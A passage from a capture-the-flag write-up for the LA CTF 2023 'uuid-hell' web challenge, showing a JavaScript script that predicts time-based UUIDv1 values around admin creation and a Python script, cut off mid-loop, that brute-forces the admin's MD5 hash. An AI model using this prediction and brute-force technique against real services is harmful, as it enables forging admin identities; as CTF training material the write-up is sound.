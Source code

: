 However, I still couldn't predict the UUID in this script...

Hmm... I wonder if can I ***brute force the admin UUID's MD5 hash***...

**To do so, I'll first generate a UUIDv1 BEFORE creating a new admin account. Then, get the regular user's UUIDv1 AFTER new admin account has been created:**
```js
const uuid = require('uuid');
const crypto = require('crypto');

const URL = 'https://uuid-hell.lac.tf';

// Generate UUIDv1 and MD5 hashed one
var adminuuid = uuid.v1({'node': [0x67, 0x69, 0x6E, 0x6B, 0x6F, 0x69], 'clockseq': 0b10101001100100});
console.log("Before created UUIDv1: " + adminuuid);
var hash = crypto.createHash('md5').update("admin" + adminuuid).digest("hex");
console.log("Before created MD5 hash: " + hash);

// Create new admin
fetch(URL + "/createadmin", {
    method: "POST"
}).then(
        response => response.text()
    ).then(
        text => console.log("Create admin response text: " + text)
    );

// Get the current regular user's UUIDv1
fetch(URL).then(
        response => response.text()
    ).then(
        text => console.log("Current regular user's UUIDv1:\n" + text.split('<br><br><strong>')[0])
    );
```

> Note: I switch to JavaScript for simplicity.

```shell
┌[siunam♥earth]-(~/ctf/LA-CTF-2023/Web/uuid-hell)-[2023.02.12|14:12:43(HKT)]
└> nodejs generate_uuidv1.js
Before created UUIDv1: 8c07b990-aa9c-11ed-aa64-67696e6b6f69
Before created MD5 hash: eb3b9bac7f6b78cb5ea2895fc0331772
Current regular user's UUIDv1:
You are logged in as 8c69d6c0-aa9c-11ed-aa64-67696e6b6f69
Create admin response text: Admin account created.
```

**Then, go to `/`, and copy the last admin user's hash:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/LA-CTF-2023/images/Pasted%20image%2020230212141551.png)

**After that, I'll write a Python script to brute force the MD5 hash:**
```py
#!/usr/bin/env python3

from hashlib import md5

def main():
    hashed = '9d91ed0ca14c3863eb27546c83e25358'

    for i in range(0x8c07b990 , 0xffffffff):
        hexed = hex(i)[2:]
        hashTarget = f'{hexed}-aa9c-11ed-aa64-67696e6b6f69'.encode('utf-8')

        hashedTarget = md5(b'admin' + hashTarget).hexdigest()
        print(f'[*] Trying target: {hashTarget.decode()}, hashed: {hashedTarget}', end='\r')
```